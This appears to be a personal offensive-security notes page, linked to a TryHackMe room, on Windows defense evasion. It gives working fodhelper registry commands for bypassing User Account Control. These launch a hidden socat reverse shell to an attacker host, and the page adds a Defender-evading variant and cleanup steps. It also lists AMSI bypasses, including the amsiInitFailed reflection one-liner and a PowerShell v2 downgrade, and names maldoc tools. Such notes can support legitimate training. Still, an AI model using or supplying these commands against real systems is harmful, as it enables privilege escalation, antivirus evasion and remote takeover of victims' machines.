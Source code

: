 # User Account Control
This deserved its own TryHackMe room, so I'm separating it out here. 

### GUI Bypasses
MSConfig always runs as a High-IL process and has a "tool" allowing us to launch a command prompt, allowing us to bypass UAC completely. 
AZMan has a "Help Topics" page with a view-source option. Once notepad opens click Open, and navigate to cmd.exe. Right-click->Open and you have a High-IL shell. 

### Using Fodhelper to Bypass without a GUI
The Fodhelper binary has auto-elevate properties that can be used to obtain a High-IL shell without relying on GUI interaction. 
```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden <socat binary> TCP:<attacker_ip>:<attacker port> EXEC:cmd.exe,pipes" # Command can be something else. This establishes a reverse shell with SOCAT
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f

fodhelper.exe

reg delete HKCU\Software\Classes\ms-settings\ /f # Post-compromise cleanup

# The below code more reliably bypasses Windows Defender. Some trivial obfuscation may be necessary.

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:<attacker port> EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.ccu\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".ccu" /f

```

An automated solution to UAC bypasses can be found here: https://github.com/hfiref0x/UACME

# Maldocs
Maldocs refers to malicious documents created in Office or other applications capable of running code from macros. 

- [[MacroPack]]
- [[OfficePurge]]

# Powershell
Powershell can be masked from AMSI using several methods.
- Powershell Downgrade
	- Powershell V2.0 does not use AMSI instrumentation at all. It's that simple.
```powershell
powershell.exe -Version 2 # Haha get juked
```
- Powershell Reflection
	- AMSIUtils can be used to set the value of "amsiInitFailed" in the binary itself, convincing AMSI that it is not running and therefore cannot detect anything. 
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) # Gaslight the system
```
- String Concatenation
	- If a string is broken up, it is stored in different places in memory, try not to keep any keywords together. Use [[AMSITrigger]] to detect locations. 
```powershell
```